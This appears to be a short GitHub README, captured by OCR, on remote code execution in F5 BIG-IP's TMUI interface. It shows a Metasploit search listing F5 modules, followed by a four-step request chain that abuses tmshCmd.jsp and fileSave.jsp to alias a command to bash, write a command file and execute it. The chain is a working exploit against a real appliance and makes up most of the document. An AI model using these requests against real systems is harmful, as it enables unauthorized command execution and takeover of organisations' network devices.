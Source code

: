 ```
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.87-dev                          ]
+ -- --=[ 2007 exploits - 1096 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Save the current environment with the save command, future console restarts will use this environment again

msf5 > search f5_bigip

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  auxiliary/dos/http/f5_bigip_apm_max_sessions                     normal     No     F5 BigIP Access Policy Manager Session Exhaustion Denial of Service
   1  auxiliary/gather/f5_bigip_cookie_disclosure                      normal     No     F5 BigIP Backend Cookie Disclosure
   2  auxiliary/scanner/http/f5_bigip_virtual_server                   normal     No     F5 BigIP HTTP Virtual Server Scanner
   3  exploit/linux/ssh/f5_bigip_known_privkey        2012-06-11       excellent  No     F5 BIG-IP SSH Private Key Exposure
   4  exploit/linux/http/f5_bigip_tmui_rce            2020-06-30       excellent  Yes    F5 BIG-IP TMUI Directory Traversal and File Upload RCE


msf5 > 

```

## tmshCmd.jsp + fileSave.jsp = Linux RCE

```
1. tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
2. fileSave.jsp?fileName=/tmp/cmd&content=id
3. tmshCmd.jsp?command=list+/tmp/cmd
4. tmshCmd.jsp?command=delete+cli+alias+private+list
````
![](./whoami.png)